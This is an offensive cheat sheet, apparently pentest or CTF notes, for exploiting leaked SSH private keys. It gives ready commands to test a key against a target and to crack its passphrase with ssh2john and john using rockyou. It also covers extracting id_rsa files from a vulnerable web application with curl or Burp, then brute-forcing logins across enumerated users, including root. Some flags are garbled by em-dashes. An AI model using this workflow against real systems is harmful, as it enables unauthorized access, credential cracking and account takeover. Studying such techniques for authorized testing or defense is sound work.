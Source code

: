 # SSH Private Keys (id_rsa)

### 1) Quick SSH test (30–60s)

    ssh -i id_rsa user@TARGET -p PORT -o IdentitiesOnly=yes -o BatchMode=yes -vvv

### 2) If SSH says key needs a passphrase or is rejected: — Then Check whether if key is passphrase-protected:

    ssh-keygen -y -f id_rsa >/dev/null && echo “no passphrase” || echo “passphrase-protected or invalid”

### 3) If passphrase-protected — quick crack workflow

- Convert key to hash:

      ssh2john.py id_rsa > hash.txt

- Crack with john:

      john — wordlist=rockyou.txt hash.txt

### 4) Common Libcrypto/format errors

If ssh complains about libcrypto or key format, normalize the file:

    dos2unix ~/.ssh/id_rsa
    vim — clean ~/.ssh/id_rsa
    (inside vim: type :wq then hit Return)

### 5) Discover SSH Keys in a web application

Extract id_rsa keys from a web application in ways that do not render formatting errors.

Curl

    curl "[Vulnerable URL/Request]" -o id_rsa

Alternatively, intercept the successful request and response in Burp Suite. Copy the response body directly from Burp’s interface, which preserves the exact file formatting, and save it locally.

Then give permissions to key

    chmod 600 id_rsa

Login

    ssh -i id_rsa USER@IP

## The General Strategy

#### Trust the Key: If you have successfully extracted the key and ensured its permissions are correct (chmod 400 id_rsa), assume the key is valid and the issue lies with the username.

#### Enumerate Users: Use available information (such as the contents of /etc/passwd, web application user lists, or any credentials you've found) to compile a list of every possible user on the target machine.

#### Brute-Force Users with the Key: Systematically attempt to log in using the extracted key against every user on your list, including users like root or service accounts.

